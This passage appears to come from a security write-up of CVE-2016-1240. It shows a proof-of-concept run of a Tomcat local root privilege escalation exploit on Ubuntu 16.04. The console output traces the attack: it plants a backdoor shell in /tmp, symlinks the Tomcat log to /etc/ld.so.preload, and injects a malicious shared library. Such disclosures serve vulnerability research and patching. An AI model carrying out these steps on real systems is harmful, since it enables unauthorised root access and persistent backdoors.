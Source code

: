     # Job done.
    cleanexit 0

#### poc运行示例：

    tomcat7@ubuntu:/tmp$ id
    uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

    tomcat7@ubuntu:/tmp$ lsb_release -a
    No LSB modules are available.
    Distributor ID:    Ubuntu
    Description:    Ubuntu 16.04 LTS
    Release:    16.04
    Codename:    xenial

    tomcat7@ubuntu:/tmp$ dpkg -l | grep tomcat
    ii  libtomcat7-java              7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- core libraries
    ii  tomcat7                      7.0.68-1ubuntu0.1               all          Servlet and JSP engine
    ii  tomcat7-common               7.0.68-1ubuntu0.1               all          Servlet and JSP engine -- common files

    tomcat7@ubuntu:/tmp$ ./tomcat-rootprivesc-deb.sh /var/log/tomcat7/catalina.out 

    Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
    CVE-2016-1240

    Discovered and coded by: 

    Dawid Golunski 

    http://legalhackers.com

    [+] Starting the exploit in [active] mode with the following privileges: 
    uid=110(tomcat7) gid=118(tomcat7) groups=118(tomcat7)

    [+] Target Tomcat log file set to /var/log/tomcat7/catalina.out

    [+] Compiling the privesc shared library (/tmp/privesclib.c)

    [+] Backdoor/low-priv shell installed at: 
    -rwxr-xr-x 1 tomcat7 tomcat7 1037464 Sep 30 22:27 /tmp/tomcatrootsh

    [+] Symlink created at: 
    lrwxrwxrwx 1 tomcat7 tomcat7 18 Sep 30 22:27 /var/log/tomcat7/catalina.out -> /etc/ld.so.preload

    [+] Waiting for Tomcat to re-open the logs/Tomcat service restart...
    You could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)


    [+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: 
    -rw-r--r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

    [+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

    [+] The /etc/ld.so.preload file now contains: 
    /tmp/privesclib.so
